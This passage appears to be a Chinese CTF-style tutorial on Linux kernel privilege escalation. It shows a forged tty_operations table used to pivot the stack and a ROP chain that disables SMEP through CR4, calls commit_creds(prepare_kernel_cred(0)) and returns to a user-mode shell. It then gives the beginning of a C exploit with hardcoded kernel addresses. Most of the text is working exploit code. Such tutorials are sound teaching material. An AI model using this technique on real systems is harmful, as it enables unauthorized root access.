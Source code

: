 现在我们并没有控制到栈,所以在rop的时候需要想办法进行栈转移:

最终tty_operations的构造如下:
```
for(i = 0; i < 30; i++)
 {
     fake_tty_opera[i] = 0xffffffff8181bfc5; 
 }
 fake_tty_opera[0] = 0xffffffff810635f5;     //pop rax; pop rbp; ret;
 fake_tty_opera[1] = (size_t)rop;            //rop链的地址
 fake_tty_opera[3] = 0xffffffff8181bfC5;     // mov rsp,rax ; dec ebx ; ret
 fake_tty_opera[7] = 0xffffffff8181bfc5;     // mov rsp,rax ; dec ebx ; ret
```
我们把提权,关闭smep等操作都放到rop链里面:
```
int i = 0;
 size_t rop[20]={0};
 rop[i++] = 0xffffffff810d238d;      //pop_rdi_ret
 rop[i++] = 0x6f0;
 rop[i++] = 0xffffffff81004d80;      //mov_cr4_rdi_pop_rbp_ret
 rop[i++] = 0x6161616161;            //junk
 rop[i++] = (size_t)get_root;
 rop[i++] = 0xffffffff81063694;      //swapgs_pop_rbp_ret
 rop[i++] = 0x6161616161;
 rop[i++] = 0xffffffff814e35ef;      // iretq; ret;
 rop[i++] = (size_t)shell;
 rop[i++] = user_cs;
 rop[i++] = user_eflags;
 rop[i++] = user_sp;
 rop[i++] = user_ss;
```
这个rop链就是比我们的之前的ret2usr多了一个mov_cr4_rdi_pop_rbp_ret

#### 最终exp
```
#include<stdio.h>
#include<unistd.h>
#include<fcntl.h>
unsigned long user_cs, user_ss, user_eflags,user_sp;
size_t commit_creds_addr = 0xffffffff810a1420;
size_t prepare_kernel_cred_addr = 0xffffffff810a1810;
void* fake_tty_opera[30];

void shell(){
    system("/bin/sh");
}

void save_stats(){
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
        :
        : "memory"
    );
}

void get_root(){
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
```
